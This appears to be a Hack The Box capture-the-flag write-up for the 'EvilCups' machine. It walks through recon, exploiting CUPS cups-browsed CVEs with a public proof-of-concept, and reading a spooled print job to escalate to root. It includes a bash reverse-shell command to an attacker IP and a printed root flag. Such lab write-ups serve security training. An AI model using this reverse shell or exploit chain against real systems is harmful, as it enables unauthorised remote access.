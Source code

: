 ```yaml
---
title : "Hack The Box - EvilCups"
author: imdang 🤞🤞
date: 2024-11-13 11:33:00 +0800
categories: [Hackthebox, Hackthebox-Linux, Hackthebox-Medium]
tags: [nmap,cups,linpeas,OSCP]
---
```


<!-- ![image](https://user-images.githubusercontent.com/59029171/139866885-bc8556d4-7979-4d42-9d4e-027c0900f245.png) -->

<!-- **Node is about enumerating an Express NodeJS application to find an API endpoint that discloses the usernames and password hashes. To root the box is a simple buffer overflow and possible by three other unintended ways.** -->

---

# Recon
## Nmap

The first thing that I do is run nmap scan that show this results:
```console
# Nmap 7.94SVN scan initiated Thu Oct 31 03:16:36 2024 as: nmap -sV -sC --min-rate=1000 -p- -o nmap 10.10.11.40
Warning: 10.10.11.40 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.40
Host is up (0.27s latency).
Not shown: 64302 closed tcp ports (conn-refused), 1231 filtered tcp ports (no-response)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 36:49:95:03:8d:b4:4c:6e:a9:25:92:af:3c:9e:06:66 (ECDSA)
|_  256 9f:a4:a9:39:11:20:e0:96:ee:c4:9a:69:28:95:0c:60 (ED25519)
631/tcp open  ipp     CUPS 2.4
|_http-title: Home - CUPS 2.4.2
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 31 03:19:48 2024 -- 1 IP address (1 host up) scanned in 191.98 seconds
```

From the nmap results, we can see that there is port 22 SSH and port 631 TCP run CUPS 2.4.2 service. Take a search ```cups 2.4.2``` and run nmap to scan udp port

```console
┌──(kali㉿kali)-[~/htb/machine/evilcups]
└─$ sudo  nmap -sU -p 630-632 10.10.11.40 -o nmap_udp
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-12 10:42 EST
Nmap scan report for 10.10.11.40
Host is up (0.25s latency).

PORT    STATE         SERVICE
630/udp closed        rda
631/udp open|filtered ipp
632/udp closed        bmpp

Nmap done: 1 IP address (1 host up) scanned in 3.26 seconds
```

That's port 631 UDP run ipp (Internet Printer Protocol) 

## Website - TCP 631

Take a look in the website, that is a web interface for CUPS 2.4.2 service to control openprinting printer

![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241113_evilcups_cups.png)


# Exploit

## User

Search for changelog and CVE in google for CUPS 2.4.2.

I see that has 4 CVE:
- CVE-2024-47076 has a CVSS score of 8.6, representing a critical level of severity due to the ability of an attacker to send malicious IPP requests to manipulate printer settings and execute arbitrary code​
- CVE-2024-47175 also scores 8.6, allowing for a similar type of remote code execution through crafted print job submissions, targeting vulnerabilities in the PPD file processing​
- CVE-2024-47176 carries a CVSS score of 5.3, reflecting the potential for exploitation via the cups-browsed service
- CVE-2024-47177 is another critical vulnerability, also scoring 9.0 (previously 9.9), as it allows attackers to bypass security measures by sending malformed IPP requests​

Combine this a report in github can get RCE from CUPS service in link [open printing rce]("https://github.com/OpenPrinting/cups-browsed") in ```security``` tab

Use it and change ```command``` to get reverse shell in port ```9001``` to "bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'"

Run ```poc.py``` and access to printers in CUPS web and select to ```Print Test Page``` to get reverse shell and get user flag

![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241113_evilcups_poc.png)

User flag: ```***```

# Privilege Escalation

## Linpeas

Come back to Web TCP 631 and see first Printer default in Web, i get that is printer with id 1 in this.

So see in documention, get the default evilcups filesystem in ```var/spool/cups```, but no read privilege in this, user ```lp``` just have execute privilege, and continue in documention default file name is ```d<print job>-<page number>```, ```<print job>``` needs to be 5 digits and ```<page number>``` be 3 digits. So file-path is ```var/spool/cups/d00001-001```.

cat it

```shell
cat /var/spool/cups/d00001-001
%!PS-Adobe-3.0
%%BoundingBox: 18 36 577 806
%%Title: Enscript Output
%%Creator: GNU Enscript 1.6.5.90
%%CreationDate: Sat Sep 28 09:31:01 2024
%%Orientation: Portrait
%%Pages: (atend)
%%DocumentMedia: A4 595 842 0 () ()
%%DocumentNeededResources: (atend)
%%EndComments
%%BeginProlog
%%BeginResource: procset Enscript-Prolog 1.6.5 90
%
% Procedures.
%

/_S {   % save current state
  /_s save def
} def
/_R {   % restore from saved state
  _s restore
} def

/S {    % showpage protecting gstate
  gsave
  showpage
  grestore
} bind def

/MF {   % fontname newfontname -> -     make a new encoded font
  /newfontname exch def
  /fontname exch def
...
```

See that the file ```d00001-001``` is ps file with DocumentMedia, so use tool ```ps2pdf``` to convert it to pdf

```console
p@evilcups:/$ ps2pdf /var/spool/cups/d00001-001 /tmp/d00001-001.pdf
ps2pdf /var/spool/cups/d00001-001 /tmp/d00001-001.pdf
lp@evilcups:/$ cd tmp
cd tmp
lp@evilcups:/tmp$ ls
ls
00d5e673a5af7
00d5e673c8b27
00d7f673b9575
00d7f673f3930
00dc8673acbd9
00dc8673d3f54
011d3673cb49e
011d3674208c4
03f816736a89b
03f816742929f
06d266737c890
06d26673a905e
06d5a673600d7
d00001-001.pdf
foomatic-8Zd8lA
foomatic-dC088b
foomatic-Nyxp01
foomatic-nzO5CZ
foomatic-o7RpxI
foomatic-sJEqZS
foomatic-TGU0gW
systemd-private-6f705080b80545b0a6fb3d6cd199155b-colord.service-uvXVLM
systemd-private-6f705080b80545b0a6fb3d6cd199155b-systemd-logind.service-p3WmZd
vmware-root_586-2696942867
```

Run http server and get pdf file

![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241113_evilcups_pdf.png)

SSH root with this password.

And now, WE ARE ROOT !! 

Root flag: ```2ff71ea6aba5d40af914c1af75672e2a```

# Box Rooted 

![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241113_evilcups_boxroot.png)

<!-- HTB Profile : [ficstkeyfx](https://app.hackthebox.com/profile/244565) -->

If you find my articles interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/0xStarlight"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me an OSCP?&emoji=&slug=0xStarlight&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>

